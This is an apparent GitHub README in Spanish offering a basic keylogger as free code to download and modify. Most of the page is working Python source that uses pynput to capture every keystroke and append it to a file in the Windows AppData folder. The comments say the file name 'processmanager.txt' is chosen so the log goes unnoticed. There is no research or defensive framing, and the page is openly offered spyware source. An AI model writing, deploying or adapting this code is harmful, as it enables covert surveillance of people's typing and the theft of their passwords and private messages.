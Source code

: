 # Keylogger
**- Aqui vas a poder descargar un Keylogger Básico, siéntete libre de modificar lo que quieras a tu gusto es código libre!**

**- Este programa te permite registrar todas las entradas del teclado de un ordenador.**


# Code

```python
# Importamos los modulos que usaremos

import os
import pynput
from pynput.keyboard import Listener 


keys = []
count = 0

# El archivo se crea en la carpeta User/Appdata/Roaming
path = os.environ ['appdata'] + '\\processmanager.txt' # Elegimos ruta donde guardar el txt + ponemos un nombre que pase desapercibido (Windows)


def on_press(key):
    global keys, count

    keys.append(key)
    count +=1

    if count >= 1:
        count = 0
        write_file(keys)
        keys = []

def write_file(keys):
    with open(path, 'a') as f:
        for key in keys:
            k = str(key).replace("'", "")
            
            if k.find('backspace') > 0:
                f.write(' Backspace ')

            elif k.find('enter') > 0:
                f.write('\n')
                
            elif k.find('shift') > 0:
                f.write(' Shift ')
            
            elif k.find ('space') > 0:
                f.write(' ')

            elif k.find('caps_lock') > 0:
                f.write(' caps_lock ')

            elif k.find('Key'):
                f.write(k)


with Listener(on_press=on_press) as Listener:
    Listener.join()


```
